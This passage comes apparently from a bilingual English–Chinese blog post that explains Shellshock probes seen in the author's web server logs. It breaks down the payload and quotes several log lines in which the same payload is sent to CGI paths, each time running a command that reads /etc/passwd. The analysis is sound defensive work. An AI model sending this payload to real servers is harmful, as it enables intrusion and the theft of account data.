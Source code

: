Let's break it down further.  
让我们进一步分解它。

1.  `() { ignored; };`: This part defines a function in Bash. The content inside the curly braces is the function body. The ignored command is a placeholder; it doesn't affect the execution but was likely included to prevent syntax errors.  
    `() { ignored; };` ：这部分在 Bash 中定义一个函数。大括号内的内容是功能体。忽略的命令是占位符;它不会影响执行，但可能是为了防止语法错误而包含的。
    
2.  `echo Content-Type: text/html; echo ;`: These commands are part of the function body. They set the Content-Type header of the HTTP response to "text/html" and echo an empty line.  
    `echo Content-Type: text/html; echo ;` ：这些命令是函数体的一部分。他们将 HTTP 响应的 Content-Type 标头设置为“text/html”，并回显一个空行。
    
3.  `/bin/cat /etc/passwd`: This is the malicious command embedded within the function. It attempts to use the `cat` command to display the contents of the `/etc/passwd` file, which contains user account information.  
    `/bin/cat /etc/passwd` ：这是嵌入在函数中的恶意命令。它尝试使用该 `cat` 命令来显示包含用户帐户信息的文件 `/etc/passwd` 的内容。
    

If the attack was successful, the attacker would theoretically gain access to my user credentials as well as have a mechanism to execute arbitrary code on the server.  
如果攻击成功，从理论上讲，攻击者将获得对我的用户凭据的访问权限，并具有在服务器上执行任意代码的机制。

Like the directory traversal attack, the attacker guesses common directories and paths looking for an endpoint that responds favorably.  
与目录遍历攻击一样，攻击者会猜测常见的目录和路径，以寻找响应良好的端点。

```
[24/Jan/2024:12:02:51 +0000] 400 - GET http xxx.xxx.xxx.xxx "/cgi-bin/status" [Client xxx.xxx.xxx.xxx] [Length 654] [Gzip -] "Mozilla/5.0 (Windows NT 6.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2228.0 Safari/537.36" "() { ignored; }; echo Content-Type: text/html; echo ; /bin/cat /etc/passwd"

[24/Jan/2024:12:02:51 +0000] 404 - GET http xxx.xxx.xxx.xxx "/cgi-bin/stats" [Client xxx.xxx.xxx.xxx] [Length 183] [Gzip 3.21] "Mozilla/5.0 (Windows NT 6.2; WOW64) AppleWebKit/537.36 (KHTML like Gecko) Chrome/44.0.2403.155 Safari/537.36" "() { ignored; }; echo Content-Type: text/html; echo ; /bin/cat /etc/passwd"

[24/Jan/2024:12:02:52 +0000] 400 - GET http xxx.xxx.xxx.xxx "/cgi-bin/test" [Client xxx.xxx.xxx.xxx] [Length 654] [Gzip -] "Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/36.0.1985.67 Safari/537.36" "() { ignored; }; echo Content-Type: text/html; echo ; /bin/cat /etc/passwd"

[24/Jan/2024:12:02:52 +0000] 404 - GET http xxx.xxx.xxx.xxx "/cgi-bin/status/status.cgi" [Client xxx.xxx.xxx.xxx] [Length 183] [Gzip 3.21] "Mozilla/5.0 (Windows NT 5.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/35.0.2117.157 Safari/537.36" "() { ignored; }; echo Content-Type: text/html; echo ; /bin/cat /etc/passwd"

[24/Jan/2024:12:02:53 +0000] 404 - GET http xxx.xxx.xxx.xxx "/test.cgi" [Client xxx.xxx.xxx.xxx] [Length 183] [Gzip 3.21] "Mozilla/5.0 (X11; Ubuntu; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/55.0.2919.83 Safari/537.36" "() { ignored; }; echo Content-Type: text/html; echo ; /bin/cat /etc/passwd"

[24/Jan/2024:12:02:53 +0000] 400 - GET http xxx.xxx.xxx.xxx "/debug.cgi" [Client xxx.xxx.xxx.xxx] [Length 654] [Gzip -] "Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2227.0 Safari/537.36" "() { ignored; }; echo Content-Type: text/html; echo ; /bin/cat /etc/passwd"

[24/Jan/2024:12:02:54 +0000] 400 - GET http xxx.xxx.xxx.xxx "/cgi-bin/test-cgi" [Client xxx.xxx.xxx.xxx] [Length 654] [Gzip -] "Mozilla/5.0 (Windows NT 6.3; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2226.0 Safari/537.36" "() { ignored; }; echo Content-Type: text/html; echo ; /bin/cat /etc/passwd"


```
